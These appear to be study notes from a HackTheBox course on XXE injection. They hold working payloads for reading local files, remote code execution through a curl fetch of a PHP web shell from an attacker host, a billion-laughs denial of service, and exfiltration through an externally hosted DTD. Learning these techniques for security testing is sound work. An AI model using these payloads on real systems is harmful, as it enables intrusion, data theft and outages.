 # 

```
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

# Reading Sensitive Files
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

# XXE TO RCE

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

```
powen@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
powen@htb[/htb]$ sudo python3 -m http.server 80
```

```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
> We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.

> The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.


# XXE DOS
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```
This payload defines the a0 entity as DOS, references it in a1 multiple times, references a1 in a2,  
and so on until the back-end server's memory runs out due to the self-reference loops. However, this attack no longer works with modern web servers (e.g., Apache),  
as they protect against entity self-reference

## HTB practice
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php"> ]>
<root>
<name>nn</name>
<tel></tel>
<email>&company;</email>
<message>n</message>
</root>
```


# Advanced Exfiltration with CDATA

```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if we reference the &joined; entity, it should contain our escaped data. However, this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.

To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

```
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the submitDetails.php file by first storing the above line in a DTD file (e.g. xxe.dtd), host it on our machine, and then reference it as an external entity on the target web application, as follows:

```
powen@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
powen@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can reference our external entity (xxe.dtd) and then print the &joined; entity we defined above, which should contain the content of the submitDetails.php file, as follows:

```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

# Error Based XXE

First, we will host a DTD file that contains the following payload:

```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Now, we can call our external DTD script, and then reference the error entity, as follows:

```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

> However, this method is not as reliable as the previous method for reading source files, as it may have length limitations, and certain special characters may still break it.




---

> Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an online tool. If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.


> In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.
